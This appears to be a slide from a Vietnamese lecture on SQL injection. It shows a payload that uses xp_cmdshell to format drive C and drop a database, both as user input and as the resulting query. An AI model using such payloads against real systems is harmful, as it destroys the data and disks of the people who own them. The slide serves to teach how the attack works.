

# Tấn công SQL Injection
Chiếm quyền kiểm soát hệ thống
User types: ; xp_cmdshell 'format c: /q /yes '; drop database myDB; --

select * from tabelle where id=1; xp_cmdshell 'format c: /q /yes '; drop database myDB; --
38